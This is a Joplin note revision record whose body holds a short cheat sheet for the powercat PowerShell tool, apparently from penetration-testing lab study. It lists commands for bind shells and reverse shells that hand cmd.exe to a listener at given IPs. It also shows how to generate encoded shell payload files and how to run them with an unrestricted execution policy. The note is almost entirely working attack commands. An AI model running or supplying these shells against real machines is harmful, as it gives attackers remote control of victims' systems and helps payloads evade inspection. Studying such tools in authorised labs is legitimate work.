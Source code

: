 id: 4d4663ca827d47059069c350258dbc97
parent_id: 
item_type: 1
item_id: 1f45fe001a5c493683ce3e44ef34f4b2
item_updated_time: 1642144555752
title_diff: "[{\"diffs\":[[1,\"Powercat\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"<ins>**REQUIRES POWERSHELL SCRIPT TO LOAD**</ins>\\\n\\\n> ..\\\\\\\\powercat.ps1\\\n\\\nBind shell: powercat -l -p $PORT -e cmd.exe\\\n\\\nReverse shell: powercat -c $IP -p $PORT -e cmd.exe\\\n\\\nPayloads:\\\n\\\n- For reverse shell: powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1\\\n    \\\n- For encoded reverse shell: powercat -c 192.168.119.190 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1\\\n    \\\n- For encoded bind shell: powercat -l -p 443 -e cmd.exe -ge > encodedbindshell.ps1\\\n    \\\n\\\nTo run the payloads: use\\\n\\\n> powershell.exe -E (Get-Content '.\\\\\\\\encoded-rshell.ps1' -Raw)\\\n\\\nIn Powershell. Cmd.exe doesn't seem to work due to some sort of limitation\\\n\\\nPowerShell.exe -ExecutionPolicy UnRestricted -File\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":682}]"
metadata_diff: {"new":{"id":"1f45fe001a5c493683ce3e44ef34f4b2","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-14T07:22:53.646Z
created_time: 2022-01-14T07:22:53.646Z
type_: 13